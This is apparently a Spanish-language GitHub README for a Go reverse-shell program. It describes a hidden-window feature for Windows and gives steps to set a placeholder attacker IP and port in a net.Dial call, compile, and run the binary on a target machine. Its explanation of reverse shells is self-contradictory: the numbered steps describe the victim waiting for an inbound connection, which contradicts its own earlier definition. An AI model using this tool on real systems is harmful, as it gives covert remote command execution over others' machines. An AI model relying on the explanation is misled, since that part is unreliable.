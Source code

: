 # Reverse Shell en Go

Este es un programa simple de reverse shell escrito en Go que establece una conexión TCP y ejecuta comandos en una máquina remota. 
Una Reverse Shell (o shell inversa) es una técnica utilizada en ciberseguridad y hacking que implica la conexión a una máquina remota y la ejecución de comandos desde esa máquina en la máquina local. En lugar de la típica comunicación directa desde el cliente al servidor, como en una shell normal, en una reverse shell, el cliente es el que inicia la conexión y el servidor la acepta.

El flujo típico de una reverse shell es el siguiente:

1.- Un atacante (o un programa malicioso) coloca un "payload" en la máquina de la víctima. Este payload podría ser un script, un ejecutable o cualquier tipo de código malicioso.

2.- El payload se ejecuta en la máquina de la víctima, y en lugar de establecer una conexión saliente hacia el atacante, espera a que el atacante inicie la conexión.

3.- El atacante utiliza su propia máquina como servidor y se conecta al payload que se está ejecutando en la máquina de la víctima.

4.- Una vez establecida la conexión, el atacante obtiene acceso a una shell en la máquina de la víctima, lo que le permite ejecutar comandos y controlar el sistema remoto.

La reverse shell es una técnica utilizada en situaciones donde los firewalls y otras medidas de seguridad bloquean las conexiones entrantes, pero permiten las conexiones salientes. Al invertir el flujo de comunicación, el atacante puede eludir algunas restricciones de seguridad.

# Características

- **Conexión TCP**: Establece una conexión TCP con la dirección IP y el puerto especificados.

- **Ejecución de Comandos Remotos**: Ejecuta comandos en la máquina remota a través de la conexión TCP.

- **Ocultar Ventana en Windows**: En sistemas operativos Windows, la ventana de la consola se oculta utilizando `syscall.SysProcAttr{HideWindow: true}`.

# Uso

1. Clona el repositorio:

    ```bash
    git clone https://github.com/tuusuario/reverse-shell-go.git
    cd reverse-shell-go
    ```

2. Edita el archivo `main.go` y ajusta la dirección IP y el puerto según tus necesidades.

    ```go
    c, _ := net.Dial("tcp", "TU_IP:TU_PUERTO")
    ```

3. Compila el código:

    ```bash
    go build main.go
    ```

4. Ejecuta el programa en la máquina de destino:

    ```bash
    ./main
    ```

5. En tu máquina local, utiliza un programa cliente para conectarte al servidor y ejecutar comandos.

# Advertencia

Este código permite la ejecución remota de comandos en una máquina y debe usarse con extrema precaución. No lo utilices en entornos no seguros o sin el consentimiento del propietario del sistema.

# Contribuciones

Las contribuciones son bienvenidas. Si encuentras algún problema o tienes sugerencias de mejora, por favor, crea un issue o envía un pull request.

